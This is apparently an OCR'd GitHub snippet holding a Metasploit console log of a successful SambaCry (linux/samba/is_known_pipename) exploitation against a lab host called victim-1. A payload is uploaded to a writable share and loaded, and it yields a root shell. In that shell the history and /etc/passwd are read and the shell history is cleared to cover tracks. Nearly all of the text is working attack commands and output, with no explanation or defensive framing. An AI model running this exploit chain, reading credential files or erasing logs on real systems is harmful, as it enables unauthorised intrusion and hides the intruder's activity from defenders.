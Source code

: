 ```
msf5 exploit(linux/samba/is_known_pipename) > exploit

[*] 192.123.118.3:445 - Using location \\192.123.118.3\exploitable\tmp for the path
[*] 192.123.118.3:445 - Retrieving the remote path of the share 'exploitable'
[*] 192.123.118.3:445 - Share 'exploitable' has server-side path '/
[*] 192.123.118.3:445 - Uploaded payload to \\192.123.118.3\exploitable\tmp\JRaClgTN.so
[*] 192.123.118.3:445 - Loading the payload from server-side path /tmp/JRaClgTN.so using \\PIPE\/tmp/JRaClgTN.so...
[-] 192.123.118.3:445 -   >> Failed to load STATUS_OBJECT_NAME_NOT_FOUND
[*] 192.123.118.3:445 - Loading the payload from server-side path /tmp/JRaClgTN.so using /tmp/JRaClgTN.so...
[+] 192.123.118.3:445 - Probe response indicates the interactive payload was loaded...
[*] Found shell.
[*] Command shell session 3 opened (192.123.118.2:39651 -> 192.123.118.3:445) at 2023-07-23 03:21:58 +0000

/bin/bash -i
bash: cannot set terminal process group (8): Inappropriate ioctl for device
bash: no job control in this shell
root@victim-1:/tmp# history
history
    1  history
    2  cat .bash_history
    3  ls -al
    4  cat /etc/passwd
    5  history
    6  cat .bash_history
    7  exit
    8  history
root@victim-1:/tmp# cd ~
cd ~
root@victim-1:/root# cat .bash_history
cat .bash_history
history
cat .bash_history
ls -al
cat /etc/passwd
history
cat .bash_history
exit
```

```
root@victim-1:/root# history -c
history -c
root@victim-1:/root# history
history
    1  history
root@victim-1:/root# cat .bash_history
cat .bash_history
history
cat .bash_history
ls -al
cat /etc/passwd
history
cat .bash_history
exit
```
